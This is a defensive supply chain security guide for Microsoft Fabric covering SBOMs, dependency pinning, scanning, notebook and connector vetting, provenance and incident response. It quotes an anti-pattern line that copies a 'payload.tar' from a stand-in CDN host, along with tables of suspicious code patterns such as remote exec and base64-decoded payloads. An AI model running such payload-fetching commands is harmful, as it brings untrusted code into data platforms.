


# 🔗 Supply Chain Security: Notebook + Library + Connector Vetting

<div align="center" markdown>

**Securing the Software Supply Chain Across Notebooks, Libraries, Connectors, and Shortcuts**


</div>

---

**Last Updated:** `2026-04-27` | **Version:** 1.0.0 | **Wave 5 Feature:** 5.8 | **Anchor:** [SOC 2 Type II Readiness](soc2-type2-readiness.md)

> **Disclaimer:** This document provides architectural and technical guidance for supply chain security on Microsoft Fabric. It is **not** a substitute for a formal third-party risk management program, secure software development lifecycle (SSDLC) certification, or legal counsel. Coordinate with your organization's CISO, procurement, and legal teams before relying on these patterns in regulated environments.

---

## 🎯 Overview: The Supply Chain Threat Landscape

Software supply chain attacks have become the highest-leverage vector for sophisticated adversaries. Compromising a single dependency, build pipeline, or vendor delivers code execution into thousands of downstream environments — including cloud analytics platforms like Microsoft Fabric.

### Recent Watershed Events

| Year | Incident | Vector | Lesson for Fabric |
|------|----------|--------|-------------------|
| 2020 | **SolarWinds Orion** | Compromised build server injected malicious DLL | Build provenance is non-optional |
| 2021 | **Kaseya VSA** | Trusted RMM tool used to push ransomware | Vendor breach = customer breach |
| 2023 | **3CX softphone** | Cascaded supply chain (X_Trader → 3CX → customers) | Sub-processor risk compounds |
| 2024 | **xz-utils backdoor (CVE-2024-3094)** | Multi-year human-operated insider in OSS maintainership | Humans are the supply chain too |
| 2024 | **PyPI typosquats (`requests` → `requestts`)** | Malicious doppelganger packages | Pin and verify every dependency |
| 2025 | **Hugging Face model poisoning** | Malicious pickle in shared ML weights | Shared notebooks/models need vetting |

### Categories of Supply Chain Attack

1. **Compromised dependency** — A package you trust is updated to include malicious code (malicious maintainer takeover, account compromise)
2. **Typosquatting** — Adversary publishes `panda` hoping you mistype `pandas`
3. **Dependency confusion** — Public registry overrides private internal package of same name
4. **Compromised developer / insider** — Privileged committer adds a backdoor
5. **Build pipeline compromise** — Source is clean; binary is poisoned (SolarWinds pattern)
6. **Sub-processor compromise** — A vendor in your data flow is breached and inherits trust
7. **Shared artifact poisoning** — A shared notebook, model, or dataset has hidden payload

> 📌 **Anchor reference:** This document satisfies SOC 2 Common Criterion **CC5.3 — Acquired Components** and **CC9.2 — Vendor Management** as mapped in the [SOC 2 Type II Readiness](soc2-type2-readiness.md) anchor doc.

---

## 🌐 Fabric-Specific Supply Chain Attack Surface

Microsoft Fabric is more vulnerable than a typical enterprise app because it combines code execution (notebooks, Spark, ML), trusted external data (shortcuts, mirroring), and rich connector ecosystems.

### Attack Surface Inventory

| Surface | Risk | Default Trust |
|---------|------|---------------|
| **PyPI / pip in notebooks** | `%pip install` pulls arbitrary code into Spark executors | High — runs as workspace identity |
| **Conda packages** | Same as pip; broader package set | High |
| **Custom Environments** | [Spark Environment](../../features/spark-environments-job-definitions.md) libraries shared across many notebooks/SJDs | Very high — wide blast radius |
| **JARs (Maven) for SJD** | Native code, no sandbox | Very high — JVM access |
| **Shared notebooks** | Imported `.ipynb` / `.py` from email, repo, blog post | Often high — pasted without review |
| **Custom connectors** | Power Query / Dataflow Gen2 third-party | Variable — publisher dependent |
| **OneLake shortcuts** | S3, GCS, ADLS Gen2 references to external data | High — data trusted as if local |
| **Iceberg shared tables** | External producer writes Iceberg into OneLake or you shortcut to theirs ([Iceberg Interop](../../features/onelake-iceberg-interop.md)) | High — data + schema both external |
| **Mirroring sources** | Live replication from CosmosDB, Snowflake, on-prem SQL | High — continuous trust |
| **Custom Power BI visuals** | Marketplace visuals execute JS in user browsers | Medium — sandboxed but exfil-capable |
| **Translytical Task Flow code** | User-defined Python triggered from BI | High — runs in Fabric |
| **Data Agents tools** | LLM-callable tools that may run code | Very high — agent autonomy compounds risk |
| **dbt projects** | SQL + Jinja + Python from external repos | High |
| **Notebook Resources files** | Arbitrary files attached to notebook | Variable |

### Threat Model Mapping

Each surface maps to a STRIDE category — see the full [STRIDE threat model](threat-model-stride.md) for detail. Supply chain attacks primarily realize **Tampering** (T) and **Elevation of Privilege** (E) but routinely cascade into **Information Disclosure** (I) via exfiltration once code execution is achieved.

---

## 📦 SBOM (Software Bill of Materials)

An SBOM is a machine-readable inventory of every component (direct and transitive) in a software artifact. For Fabric, the "artifact" is the combination of: notebook code + environment libraries + connector code + custom Power BI visuals.

### Why SBOM Is Mandatory Now

| Driver | Mandate |
|--------|---------|
| **EO 14028 (US Federal)** | Software sold to USG must ship an SBOM |
| **CISA SBOM guidance (2024)** | Minimum elements: supplier, component, version, dependency relationships, hash, timestamp |
| **EU CRA (Cyber Resilience Act, 2027)** | SBOM required for products with digital elements |
| **NIST SP 800-218 (SSDF)** | SBOM as evidence of secure development |
| **FedRAMP Rev 5** | SBOM expected for system components |

### SBOM Formats

- **CycloneDX** (OWASP) — JSON/XML, widely tooled
- **SPDX** (Linux Foundation) — JSON/YAML/RDF, ISO/IEC 5962:2021

Either is acceptable; CycloneDX is more common in the Python ecosystem.

### Generating SBOM for Fabric Workloads

```bash
# 1. Python dependencies in an environment file
pip install cyclonedx-bom
cyclonedx-py requirements requirements.txt -o sbom-python.cdx.json

# 2. Filesystem-based scan (catches artifacts beyond Python)
# Syft works for containers, dirs, archives
syft dir:./fabric-workspace -o cyclonedx-json=sbom-workspace.cdx.json

# 3. License inventory companion
pip-licenses --format=json --output-file licenses.json
```

### SBOM in CI/CD

Embed SBOM generation into the [fabric-cicd deployment](../fabric-cicd-deployment.md) workflow so every promotion to staging/prod produces an immutable SBOM artifact.

```yaml
# .github/workflows/deploy-fabric.yml fragment
- name: Generate SBOM
  run: |
    pip install cyclonedx-bom
    cyclonedx-py requirements infra/environments/prod/requirements.txt \
      -o artifacts/sbom-${{ github.sha }}.cdx.json

- name: Upload SBOM
  uses: actions/upload-artifact@v4
  with:
    name: sbom-${{ github.sha }}
    path: artifacts/sbom-*.cdx.json
    retention-days: 730  # 2-year audit retention
```

### Vulnerability Scanning Against SBOM

```bash
# Scan SBOM with OSV (Google) or Grype (Anchore)
osv-scanner --sbom=sbom-workspace.cdx.json --format=table
grype sbom:sbom-workspace.cdx.json --fail-on high
```

> 📌 **Storage:** Store SBOMs in immutable Azure Blob with WORM lock for the same retention as audit logs. They are auditor-relevant evidence for [SOC 2 CC5.3](soc2-type2-readiness.md) and [audit-trail immutability](audit-trail-immutability.md).

---

## 📌 Pinning Dependencies

Unpinned dependencies are the single most common supply-chain failure. Floating versions (`pandas>=2.0`) mean every environment publish potentially pulls a different release — including a malicious one published 30 minutes ago.

### Why Pin

| Risk Without Pinning | Mitigation Pinning Provides |
|----------------------|------------------------------|
| Drift between dev and prod environments | Reproducibility |
| Compromised maintainer pushes 2.3.1 with backdoor | You stay on 2.3.0 until reviewed |
| Transitive dependency silently updates | Lockfile captures full graph |
| Audit reproducibility ("what ran on March 4?") | Exact replay from git SHA |

### How to Pin in Fabric

**Pattern A — `requirements.txt` with hashes (strongest):**

```text
pandas==2.2.3 --hash=sha256:1234abcd...
numpy==1.26.4 --hash=sha256:5678efgh...
great-expectations==0.18.21 --hash=sha256:90abijkl...
```

Generate via `pip-compile --generate-hashes` (from `pip-tools`).

**Pattern B — Conda `environment.yml` + lockfile:**

```yaml
# environment.yml (high-level)
name: fabric-bronze
dependencies:
  - python=3.11
  - pandas=2.2.3
  - pyspark=3.5.1
```

```bash
# Generate lockfile
conda-lock -f environment.yml -p linux-64
# Commit conda-lock.yml to git
```

**Pattern C — Fabric Environment item with explicit versions:**

In the Fabric UI, attach `requirements.txt` (pinned) as a Resource on the [Spark Environment](../../features/spark-environments-job-definitions.md). Republish the environment only after PR review.

### Managed Update Cadence

Pinning without updates becomes a different security problem (unpatched CVEs). Use:

- **Renovate** or **GitHub Dependabot** to auto-open PRs with bumped pins
- Require CI to pass (vulnerability scan + tests) before merge
- Cadence: weekly minor/patch, monthly major review
- Critical CVE fast-track: out-of-band PR within 48h

```yaml
# .github/dependabot.yml fragment
version: 2
updates:
  - package-ecosystem: "pip"
    directory: "/infra/environments/prod"
    schedule:
      interval: "weekly"
    open-pull-requests-limit: 5
    labels: ["dependencies", "supply-chain"]
```

---

## 🔍 Vulnerability Scanning

### Tooling Matrix

| Tool | Strength | Where to Run |
|------|----------|--------------|
| **GitHub Dependabot** | Native GitHub; PR-time alerts | Default — every repo |
| **Snyk** | Excellent transitive; license rules | CI gate + IDE |
| **Trivy** (Aqua) | Multi-target (image, fs, repo); fast | CI; Spark base images |
| **OSV-Scanner** (Google) | Authoritative OSV database | CI; SBOM-based |
| **Grype** (Anchore) | SBOM-native; container-aware | CI |
| **Bandit** | Python SAST (not deps but pairs well) | CI; pre-commit |
| **Semgrep** | Custom rules; multi-language SAST | CI; pre-commit |

### CI Integration Pattern

```yaml
# .github/workflows/security-scan.yml fragment
jobs:
  vuln-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Run OSV-Scanner
        uses: google/osv-scanner-action/osv-scanner-action@v1
        with:
          scan-args: |-
            --recursive
            --skip-git
            ./
      - name: Run Trivy
        uses: aquasecurity/trivy-action@0.20.0
        with:
          scan-type: fs
          severity: CRITICAL,HIGH
          exit-code: 1            # block on CRITICAL
          ignore-unfixed: true
```

### Severity Thresholds

| Severity | Action |
|----------|--------|
| **CRITICAL** | Block merge; immediate remediation |
| **HIGH** | Block merge unless waiver issued by SecOps |
| **MEDIUM** | Warn; remediate within 30 days |
| **LOW** | Track in backlog; remediate within quarter |
| **Unfixed** | Document waiver with risk acceptance |

> ⚠️ **Gotcha:** Don't disable scans on transitive vulns just because you can't fix them directly. Add an explicit waiver with expiration date.

---

## 📓 Notebook Vetting Process

Notebooks are *executable code masquerading as documents.* Treat any externally-sourced notebook as untrusted code.

### The Four-Gate Notebook Vetting Workflow



### Gate 1 — Provenance Check

- Source URL/repo recorded
- Author identity verified (GitHub profile, signed commits, organizational affiliation)
- License compatible with project (no GPL into proprietary unless reviewed)
- File hash recorded for tamper detection

### Gate 2 — Static Code Review

Block any of the following without a documented reason:

| Pattern | Why Suspicious |
|---------|----------------|
| `%pip install <url>` or `%pip install git+...` | Bypasses pinned deps |
| `exec(...)` / `eval(...)` of remote string | Arbitrary code execution |
| `requests.get(...).content` then `exec` | Remote payload load |
| `mssparkutils.fs.cp` from external HTTPS to OneLake | Untrusted ingress to data lake |
| `os.system` / `subprocess` invoking shell with user input | Command injection |
| Base64-encoded blobs decoded into `exec` | Obfuscation |
| Network calls to non-allowlisted domains | Exfiltration |
| Credentials, tokens, or connection strings inline | Secret exposure |
| Disabled cell outputs but runs hidden code | Hiding intent |

### Gate 3 — Sandbox Execution

- Run in an isolated workspace (`ws-sandbox-quarantine`) with:
  - No production OneLake access
  - [Outbound Access Protection (OAP)](../outbound-access-protection.md) enforcing allowlist
  - Workspace identity with read-only on synthetic data only
- Capture network calls, file writes, and Spark logs
- Compare against expected behavior

### Gate 4 — Approval & Import

- PR with reviewer sign-off (per [CC8 change management](soc2-type2-readiness.md))
- Imported via [fabric-cicd](../fabric-cicd-deployment.md) — never copy-paste through UI
- Tagged with `provenance:external` and `vetted:<date>`

### Restricting `mssparkutils` Misuse

```python
# Anti-pattern (DO NOT DO):
mssparkutils.fs.cp("https://random.cdn.example/payload.tar", "abfss://...")

# Defensive pattern in environment init:
import mssparkutils
ALLOWLIST = {"abfss://", "Files/", "Tables/"}
_orig_cp = mssparkutils.fs.cp
def _safe_cp(src, dst, recurse=False):
    if not any(src.startswith(p) for p in ALLOWLIST):
        raise PermissionError(f"Blocked external cp: {src}")
    return _orig_cp(src, dst, recurse)
mssparkutils.fs.cp = _safe_cp
```

(Distribute this guardrail via the workspace's default Environment.)

---

## 🔌 Connector Vetting

Connectors include Dataflow Gen2 connectors, Power Query M connectors, custom Mirroring connectors, and Pipeline activity connectors.

### Trust Tiers

| Tier | Examples | Vetting Required |
|------|----------|-------------------|
| **T1 — First-party Microsoft** | Azure SQL, Dataverse, Lakehouse, OneLake | Trusted by default; track Microsoft sub-processor list |
| **T2 — Verified third-party** | Databricks, Snowflake (signed by publisher in Microsoft ISV catalog) | Lightweight review: publisher signature, DPA on file |
| **T3 — Community / open source** | Custom OData, GitHub-published M connectors | Full code review; SAST; sandbox test |
| **T4 — In-house custom** | Your own Power Query M extension or Pipeline custom activity | Full SDLC: design review, code review, SAST, signed binary |

### Custom Connector Review Checklist

- [ ] Source code in your Git, not a fork-and-forget
- [ ] License compatible
- [ ] No outbound calls beyond documented endpoints
- [ ] Credential handling uses Fabric credential store, not inline
- [ ] Signed `.pqx` / `.mez` if Power Query
- [ ] Versioned and tracked in SBOM
- [ ] Reviewed annually + on every change

---

## 🧊 Iceberg & Shortcut Source Vetting

[OneLake shortcuts](../../features/onelake-iceberg-interop.md) and Iceberg interop blur the boundary between *your* data lake and *theirs*. A shortcut to a producer's S3 bucket means their access controls, retention, and quality become yours by reference.

### Risk Profile by Shortcut Source

| Source | Risk Considerations |
|--------|---------------------|
| **ADLS Gen2 in your tenant** | Low — same trust boundary |
| **ADLS Gen2 in partner tenant** | Medium — DPA + cross-tenant audit |
| **AWS S3 (private bucket, partner)** | Medium — confirm bucket policy, KMS, partner SOC 2 |
| **GCS (private bucket, partner)** | Medium — same as S3 |
| **AWS S3 / GCS public bucket** | High — anyone could write; tampering risk |
| **External Iceberg producer (Snowflake, Databricks)** | Medium-high — schema drift, malicious column injection, pickle-in-string risk |

### Pre-Shortcut Vetting Checklist

- [ ] Producer identity verified (organizational, not personal account)
- [ ] DPA / sub-processor agreement signed
- [ ] Producer's security posture reviewed (SOC 2 report, ISO 27001 cert)
- [ ] Data classification preserved (sensitivity labels propagated)
- [ ] Schema contract documented and version-pinned
- [ ] Encryption confirmed (KMS / CMK on producer side)
- [ ] Retention and deletion expectations aligned
- [ ] Incident notification SLA in contract
- [ ] Periodic re-audit cadence (annual minimum)

### Iceberg-Specific Concerns

- **Manifest tampering:** A malicious producer could rewrite manifest files to point at unexpected data files. Detection: monitor manifest churn rate; alert on out-of-band rewrites.
- **Schema poisoning:** Adding a column with a malicious default expression. Mitigation: pin schema in a contract; reject unknown columns at ingest.
- **Time-travel abuse:** Legitimate Iceberg time-travel can resurrect deleted data — confirm GDPR/CCPA deletions also expire snapshot history.

> 🔗 See [data exfiltration prevention](data-exfiltration-prevention.md) for outbound shortcut concerns and [GDPR right to deletion](gdpr-right-to-deletion.md) for snapshot-deletion patterns.

---

## 🌍 Environment File Pattern

Fabric's [Spark Environments](../../features/spark-environments-job-definitions.md) are the right unit for supply-chain control because they consolidate library decisions for many notebooks and SJDs.

### Hardened Environment Pattern

```text
infra/environments/prod/
├── environment.yml          # Conda high-level
├── requirements.txt         # Pip with --hash pins
├── conda-lock.yml           # Full transitive lock (committed)
├── sbom.cdx.json            # Generated, committed
├── README.md                # Approval record + reviewer
└── publish.py               # fabric-cicd deploy script
```

### Rules

1. **Pin every dependency** with `==` and hash where possible
2. **Sign environment files** via Git commit signing (GPG or Sigstore)
3. **One environment per workspace tier** (sandbox, dev, staging, prod) — never share prod env to dev
4. **No internet downloads at runtime** — bake everything into the published environment
5. **Re-publish only via PR** — never edit in Fabric UI directly
6. **Tag environment** with `compliance:reviewed-YYYY-MM-DD` after each republish

### Internal Mirror (Recommended)

For high-assurance scenarios, run an internal Python package mirror (Azure Artifacts feed or JFrog/Sonatype) and configure environments to install only from that mirror. This:

- Prevents dependency confusion (no public PyPI fallback)
- Lets you quarantine compromised packages instantly
- Provides single audit log for all installs

```ini
# pip.conf (in environment Resources)
[global]
index-url = https://pkgs.contoso.com/_packaging/fabric-mirror/pypi/simple/
trusted-host = pkgs.contoso.com
```

---

## 🛠️ Custom Components & Scripts

Any code authored in-house or contributed by partners must pass the same gates as third-party code — arguably stricter, since insider risk is higher.

### Required Controls

| Control | Tooling | Stage |
|---------|---------|-------|
| **Code review** | GitHub PR with 1+ reviewer | Pre-merge |
| **Branch protection** | Require review, require status checks | Repo config |
| **SAST (Python)** | Bandit, Semgrep | CI pre-merge |
| **SAST (SQL/T-SQL)** | sqlfluff + custom rules | CI pre-merge |
| **Secret scanning** | gitleaks, trufflehog, GitHub native | CI + pre-commit |
| **License compliance** | pip-licenses, FOSSA | CI |
| **Signed commits** | GPG / Sigstore | Repo policy |
| **Mandatory CODEOWNERS** | GitHub | Repo config |

### Pre-commit Hook Example

```yaml
# .pre-commit-config.yaml
repos:
  - repo: https://github.com/PyCQA/bandit
    rev: 1.7.9
    hooks:
      - id: bandit
        args: ["-c", "pyproject.toml", "-r", "."]
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.18.4
    hooks:
      - id: gitleaks
  - repo: https://github.com/returntocorp/semgrep
    rev: v1.78.0
    hooks:
      - id: semgrep
        args: ["--config=p/python", "--config=p/secrets", "--error"]
```

---

## 🏷️ Build Provenance (SLSA)

[SLSA (Supply-chain Levels for Software Artifacts)](https://slsa.dev) is the de-facto framework for build integrity. SLSA Level 3+ provides cryptographic attestations that an artifact came from a specific source revision via a specific build process.

### SLSA Levels Mapped to Fabric

| Level | Requirement | Fabric Mapping |
|-------|-------------|----------------|
| **L1** | Build process documented | fabric-cicd workflow committed to Git |
| **L2** | Tamper-resistant build logs | GitHub Actions logs + artifact retention |
| **L3** | Hosted build platform; non-falsifiable provenance | GitHub-hosted runners + provenance attestation |
| **L4** | Two-party review + hermetic, reproducible | Mandatory PR review + locked deps + reproducible env publish |

### Generating Provenance

```yaml
# GitHub Actions: SLSA L3 provenance for Python distributions
- uses: slsa-framework/slsa-github-generator/.github/workflows/generator_generic_slsa3.yml@v2.0.0
  with:
    base64-subjects: ${{ steps.hash.outputs.hashes }}
    provenance-name: provenance.intoto.jsonl
```

The resulting `provenance.intoto.jsonl` is a Sigstore-signed attestation tying the artifact hash to the source SHA, build invocation, and environment. Verify before deploy:

```bash
slsa-verifier verify-artifact \
  --provenance-path provenance.intoto.jsonl \
  --source-uri github.com/contoso/fabric-poc \
  --source-tag v1.4.0 \
  artifacts/sbom.cdx.json
```

### Reproducible Builds

Strive for: same source SHA + same toolchain → byte-identical artifact. This is hard with Python wheels but achievable for environment lockfiles. When reproducibility holds, post-hoc tampering becomes detectable.

---

## 🔁 Cross-Tenant Risk

Fabric tenants increasingly federate via OneLake shortcuts, External Data Sharing, and Mirroring. Each cross-tenant connection is a *trust extension* of your supply chain.

### Cross-Tenant Trust Checklist

- [ ] External tenant's tenant ID logged and allowlisted in [OAP](../outbound-access-protection.md)
- [ ] Cross-tenant identity model documented (B2B guest? Service principal? Workspace identity?)
- [ ] Data classification labels propagate or are re-applied at boundary
- [ ] External tenant's SOC 2 / ISO 27001 reviewed
- [ ] Sub-processor list updated to include external tenant operator
- [ ] Right-to-audit clause in inter-org agreement
- [ ] Annual re-attestation
- [ ] Termination plan: how to revoke shortcuts and prove deletion

### Trust Verification Patterns

```kql
// Cross-tenant access audit
FabricActivityLogs
| where TimeGenerated > ago(30d)
| where Operation has "ShortcutRead" or Operation has "ExternalDataShare"
| extend SourceTenant = tostring(parse_json(Identity).TenantId)
| where SourceTenant != "<your-tenant-id>"
| summarize Count=count(), FirstSeen=min(TimeGenerated), LastSeen=max(TimeGenerated)
    by SourceTenant, Operation
| order by Count desc
```

Alert when a previously-unseen `SourceTenant` appears.

---

## 🤝 Vendor Management Program

Supply chain security depends on vendor management. SOC 2 [CC9.2](soc2-type2-readiness.md) requires it; FedRAMP and ISO 27001 reinforce it.

### Sub-Processor Inventory Template

| Vendor | Service | Data Categories | Cert | DPA Date | Review Date | Owner |
|--------|---------|------------------|------|----------|-------------|-------|
| Microsoft | Fabric / Azure | All | SOC 2 / ISO 27001 / FedRAMP High | 2025-Q1 | 2026-Q1 | CISO |
| Databricks | Optional Iceberg producer | Bronze raw | SOC 2 Type II | 2025-Q3 | 2026-Q3 | Data Eng Lead |
| Snowflake | Iceberg interop | Curated | SOC 2 Type II | 2025-Q4 | 2026-Q4 | Data Eng Lead |
| Anaconda | Conda packages | (none — code only) | (vendor cert) | 2026-Q1 | 2027-Q1 | Platform Eng |

Maintain in Archon as a versioned document.

### Annual Review Process

1. Confirm cert is current (request new SOC 2 report each year)
2. Review incident notifications received during the year
3. Re-assess data flow (still needed? scope changed?)
4. Update DPA if regulations changed (e.g., new GDPR transfer mechanism)
5. Test right-to-audit clause (paper exercise; full audit if material change)

### Incident Notification SLA

Standard contractual minimums:

- Confirmed breach: 24 hours
- Suspected breach: 72 hours
- Material change in security posture: 30 days

---

## 🚨 Compromise Detection

Detection turns the supply chain from a *trust* posture to a *verify* posture.

### Behavioral Signals to Monitor

| Signal | Source | Alert Threshold |
|--------|--------|-----------------|
| Unusual `pip install` pattern in a notebook | Spark driver logs | Any install outside published env |
| New outbound domain from notebook | OAP egress logs | First-seen domain |
| Hash mismatch on critical artifact | SBOM diff in CI | Any change without PR |
| Notebook executed by unexpected identity | Workspace audit | Outside RBAC norms |
| Spike in `mssparkutils.fs.cp` from HTTPS | Spark logs | >0 events |
| Environment republish outside CI | Fabric admin audit | Any |
| Shortcut creation to new external source | Fabric admin audit | First-seen target |
| Sudden Snowflake/Databricks identity change | Mirroring audit | Any |
| Cross-tenant access from new tenant | Audit logs | First-seen tenant |

### Detection Pipeline



### Hash Verification

Build a daily job that:

1. Reads SBOM for current production environment
2. Verifies each library's hash against PyPI/internal mirror
3. Alerts on mismatch (the package was re-published or tampered)

```python
import hashlib, requests, json
sbom = json.load(open("sbom.cdx.json"))
for c in sbom["components"]:
    expected = next((h["content"] for h in c.get("hashes", []) if h["alg"] == "SHA-256"), None)
    if not expected:
        continue
    pkg = c["name"]; version = c["version"]
    # Compare against internal mirror
    actual = fetch_hash_from_mirror(pkg, version)
    if actual != expected:
        alert(f"HASH MISMATCH: {pkg}=={version}")
```

---

## 🆘 Incident Response

When (not if) a supply chain incident is detected, follow a structured response. This complements the general [incident response template](../../runbooks/incident-response-template.md).

### Stage 1 — Triage (0-1 hour)

- Confirm signal: real compromise vs false positive
- Identify scope: which environments, notebooks, jobs ran with the affected component?
- Declare severity (Sev1 if production data potentially accessed)

### Stage 2 — Containment (1-4 hours)

- Pin all environments to last known good version
- Quarantine workspaces that ran the affected component (read-only)
- Revoke any shared secrets/tokens that may have been exposed
- Block the package in the internal mirror
- Disable affected shortcuts/connectors

### Stage 3 — Investigation (4-72 hours)

```kql
// Which jobs ran with the bad version?
FabricSparkExecutionEvents
| where TimeGenerated between (datetime(2026-04-20) .. datetime(2026-04-27))
| where Environment has "<env-name>"
| where LibraryVersion has "<bad-version>"
| project TimeGenerated, NotebookId, JobId, UserPrincipalName, Outputs
```

- Reconstruct timeline from audit logs
- Identify data accessed (Bronze, Silver, Gold, PII tables?)
- Check for exfiltration via OAP egress logs

### Stage 4 — Remediation

- Revert affected environments
- Re-publish with patched version (verified out-of-band)
- Rotate any exposed secrets
- Restore tampered data from backups (or recompute from immutable Bronze)

### Stage 5 — Communication

- Internal: incident channel, leadership brief, IT
- Customer notification per contract (typically 72h for SOC 2/GDPR scope)
- Regulator notification if PII/PHI affected (GDPR, HIPAA, state laws)
- Post-incident review and report

### Stage 6 — Post-Mortem

- Five-whys / blameless retro
- Update detection rules to catch earlier next time
- File CISA / vendor disclosures as applicable
- Update SBOM diff baseline

---

## 🎰 Casino Implementation

Casino/gaming workloads carry PCI-DSS scope and regulatory (NIGC MICS, state gaming commissions) oversight, raising the bar for supply chain.

| Concern | Casino-Specific Treatment |
|---------|----------------------------|
| **PCI scope code** | Any notebook touching cardholder data — full SAST mandatory; quarterly re-review |
| **CTR/SAR compliance notebooks** | Extra scrutiny; only signed authors; immutable audit trail of every change |
| **Slot telemetry ingestion** | Vendor-supplied protocol parsers reviewed yearly; CVE watch on G2S/SAS libraries |
| **W-2G generators** | Tax-impact code; reproducibility evidence retained 7 years |
| **Cage / vault data** | Cross-tenant shortcuts forbidden; air-gapped environment publish |
| **Loyalty data** | Vendor connectors (e.g., to player tracking systems) tier-2 reviewed |

### Compliance Alignment

- **PCI-DSS 6.2** — secure custom code review
- **PCI-DSS 6.3** — track and address vulnerabilities
- **NIGC MICS Tech Standards 7.B** — change management evidence
- State gaming commission audits — annual SBOM and provenance evidence package

---

## 🏛️ Federal Implementation

Federal workloads (USDA, SBA, NOAA, EPA, DOI, DOJ, DOT/FAA, Tribal Healthcare) carry FedRAMP, FISMA, and agency-specific mandates.

| Concern | Federal-Specific Treatment |
|---------|----------------------------|
| **FedRAMP supply chain** | EO 14028 SBOM, M-22-18 self-attestation, NIST SP 800-161 supply-chain risk |
| **DOJ restricted code** | Reviewer must hold appropriate clearance; signed builds in GovCloud or Fabric Federal |
| **HIPAA (Tribal Health)** | BAA with every sub-processor in path; SBOM evidence for HHS audits |
| **CJIS (DOJ)** | Personnel screening for code reviewers; FIPS 140-3 crypto in build chain |
| **42 CFR Part 2** | Substance-use data — extra notebook vetting around any model that could surface it |
| **FedRAMP Rev 5 SR-3** | Supply chain risk management plan filed and updated annually |
| **CISA Known Exploited Vulnerabilities** | KEV catalog scan in CI; mandatory remediation per BOD 22-01 |

### Required Federal Artifacts

- SBOM in CycloneDX format, attached to ATO package
- Annual supply chain risk assessment
- Vendor list with FedRAMP authorization status of each
- Self-attestation per OMB M-22-18 (or M-23-16) on file
- SLSA L3+ provenance for production artifacts

---

## 🚫 Anti-Patterns

| Anti-Pattern | Why It Hurts | What to Do Instead |
|--------------|--------------|--------------------|
| **`%pip install` of unpinned versions in a notebook cell** | Drift; surprise updates; uncontrolled supply chain | Pin in Environment file; PR + republish |
| **Copy-paste a notebook from a blog into production workspace** | No provenance, no review, possible payload | 4-gate vetting workflow; import via fabric-cicd |
| **Shortcut to a public S3 bucket without producer DPA** | Anyone could write to it; data integrity unknown | Private bucket + DPA + sub-processor review |
| **No SBOM produced for production environments** | Can't answer "are we vulnerable to CVE-X?" in time | Generate SBOM in CI; store immutably |
| **Floating `latest` tag for any library** | Equivalent of running unsigned binaries | `==X.Y.Z --hash=...` always |
| **Maintainer accounts without MFA** | Supply chain begins with maintainer takeover | Enforce MFA + signed commits org-wide |
| **No internal package mirror** | Public PyPI compromise = your compromise | Run Azure Artifacts / JFrog mirror |
| **Treating Fabric Environment as immutable** | Drift between UI edits and Git source-of-truth | Republish only via fabric-cicd PR |
| **Skipping vulnerability scan to unblock release** | CVE-laden code reaches prod | Block CRITICAL; document HIGH waivers with expiry |
| **Cross-tenant shortcuts to undocumented partners** | Untracked data flows; trust extension you didn't approve | Allowlist tenants in OAP; sub-processor list |

---

## 📋 Implementation Checklist

Before declaring "supply chain secure":

### Foundation
- [ ] Sub-processor inventory exists and is reviewed annually
- [ ] DPAs on file for every external connector / shortcut producer
- [ ] CISO-approved supply chain risk management policy published
- [ ] Vendor management program documented (CC9.2 alignment)

### Dependencies
- [ ] All Python deps pinned with `==` and hashes in production environments
- [ ] Conda lockfiles committed to Git
- [ ] Internal package mirror configured (Azure Artifacts / JFrog)
- [ ] Renovate / Dependabot enabled on every repo
- [ ] Critical CVE fast-track process documented (48h SLA)

### SBOM
- [ ] SBOM generated for every production environment (CycloneDX)
- [ ] SBOM stored immutably with 2-year retention minimum
- [ ] SBOM attached to every fabric-cicd deployment
- [ ] OSV-Scanner / Grype runs against SBOM nightly

### CI/CD
- [ ] SAST (Bandit, Semgrep) on every PR
- [ ] Secret scanning (gitleaks, trufflehog) on every PR
- [ ] Vulnerability scan (Trivy / OSV) blocks CRITICAL
- [ ] Branch protection requires 1+ reviewer + signed commits
- [ ] CODEOWNERS enforced
- [ ] SLSA L3 provenance generated and verified

### Notebooks
- [ ] 4-gate vetting workflow documented and enforced
- [ ] Sandbox workspace exists for Gate 3 sandbox runs
- [ ] `mssparkutils.fs.cp` allowlist guardrail deployed via default Environment
- [ ] No notebook in production lacks provenance metadata

### Connectors & Shortcuts
- [ ] Connector tier classification documented (T1-T4)
- [ ] Custom connectors signed and version-tracked
- [ ] Every shortcut to external source has DPA on file
- [ ] Cross-tenant access logged and alerted on first-seen

### Detection
- [ ] Behavioral signals fed into Sentinel
- [ ] First-seen-domain alert on OAP egress
- [ ] Hash verification job runs daily against SBOM
- [ ] Environment-republish-outside-CI alert configured

### Response
- [ ] Supply chain incident playbook tested via tabletop
- [ ] Pinning rollback procedure documented
- [ ] Customer notification template prepared
- [ ] Regulator notification path documented

